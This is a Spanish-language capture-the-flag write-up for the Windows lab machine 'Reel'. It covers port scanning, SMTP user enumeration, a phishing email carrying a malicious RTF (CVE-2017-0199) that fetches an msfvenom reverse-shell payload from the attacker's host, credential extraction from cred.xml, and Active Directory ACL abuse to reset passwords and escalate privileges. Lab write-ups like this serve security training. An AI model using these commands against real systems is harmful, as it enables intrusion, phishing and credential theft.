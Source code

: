 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Reel               |
| Os                     | Windows            |
| Difficulty             | Hard               |
| Points                 | 0                  |
| IP                     | 10.10.10.77        |


## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Reel/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.77
```

![nmap 1](/assets/images/Reel/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.77 -oG allPorts
```

![nmap2](/assets/images/Reel/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p21,22,25 10.10.10.77 -oN targeted
```

![nmap3](/assets/images/Reel/nmap3.png)

Podemos empezar a probar por el servicio de ftp si tiene activado el usuario Anonymous con contrasena anonymous. Vemos por dentro que existen 3 archivos, para descargarlos esta vez insertaremos:

```s
prompt off
mget *
```

Existe un archivo que esta corrupto de los descargados, este lo podemos reparar con libreoffice, pero no fue este el caso. Aun asi podemos ver metadata, en el cual vemos un correo electronico, podemos tratar de validar si existe este correo y el servidor lo reconozca.

```s
exiftool *.docx | grep "Creator"
```

USaremos telnet de la siguiente forma:

```s
telnet 10.10.10.77 25
HELO data.com
#Una manera es usando el VRFY nico@megabank.com, pero en este caso esta desabilitado
#Mandaremos un correo
MAIL FROM: <rebick@megabank.com>
#Si ingresamos un correo no valido, nos aparecera que el host no esta reconocido.
RCPT TO: <nico@megabank.com>
```

![telnet test](/assets/images/Reel/telnet1.png)

Podemos ahora entonces enumerar correos

```s
smtp-user-enum -M RCPT -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.77
```

Ahora procedemos a mandar un <a href="https://github.com/bhdresh/CVE-2017-0199"> RTF malicioso</a>, pero antes haremos el payload con:

```s
msfvenom -p windows/shell_reverse_tcp  LHOST=10.10.14.29 LPORT=4444 -f hta-psh -o malicious.hta
```

Despues nos ponemos en escucha con python para que se descargue este payload.

```s
sudo python3 -m http.server 80
```

Y en el programa del CVE para explotarlo metemos:

```s
python2 cve-2017-0199_toolkit.py -M gen -w test.rtf -u http://10.10.14.29/malicious.hta -t RTF -x 0
```

Nos ponemos en escucha con netcat tambien:

```s
rlwrap nc -nlvp 4444
```

Mandamos el email

```s
sendEmail -f rebick@megabank.com -t nico@megabank.com -u "IMPORTANTE" -m "Checa esto" -s 10.10.10.77:25 -a test.rtf -v
```

![email sent](/assets/images/Reel/email_sent.png)

Y hemos obtenido acceso.

![Sys access](/assets/images/Reel/sys_access1.png)

Una vez dentro, podemos acceder a la flag en el usuario Nico. Para seguir con la escalada de privilegios empecemos a enumerar informacion

```s
#Para ver nuestros privilegios:
whoami /priv
```

Dentro del Escritorio de Nico tambien hay un archivo llamado cred.xml. Donde se encuentra una contrasena y para verlo lo que haremos es:

```s
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.getNetworkCredential() | Format-list *" 
```

![Tom credentials](/assets/images/Reel/tom_creds.png)

Ahora que tenemos las credenciales de Tom, podemos intentar hacer un login por ssh y si funcionara.

Vemos que han corrido el BloodHound para escanear informacion sobre el AD, este puede ser explotado a travez del SharpHound.exe o .ps1 de la siguiente manera:

```s
#No montamos un servidor smb
impacket-smbserver smbfolder $(pwd) -smb2support

#En la maquina windows descargamos el archivo con 
copy acls.csv \\10.10.14.29\smbFolder\acls.csv
```

En este archivo de acls vemos que tom tiene permiso de escritura sobre claire, esto significa que podriamos cambiarle la contrasena a claire con powershell de la siguiente manera:

```s
powershell
Import-Module .\PowerView.ps1
Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword 
$cred = ConvertTo-SecureString "rebick1234!" -AsPlainText -Force
Set-DomainUserPassword -Identity claire -AccountPassword $cred
```

Y ahora tenemos acceso a claire

![Claire Access](/assets/images/Reel/claire_access.png)

Claire tiene acceso de escritura sobre el grupo de backup_admins, pero no pertenecemos al grupo aun; asi que lo que ahora podemos hacer es:

```s
#Para meternos en el grupo
net group Backup_admins claire /add
```

Ahora podemos meternos a la carpeta de Administrador, pero aun no podemos leer la flag, para poder leerla, existen unos archivos de Backup Scripts

```s
powershell
dir | Select-String "Password"
```

![Admin Password](/assets/images/Reel/admin_password.png)

Ahora ya tendremos la contrasena de root y podremos solicitar una conexion por ssh para leer la flag

![Admin](/assets/images/Reel/root.png)

![Powned](/assets/images/Reel/powned.png)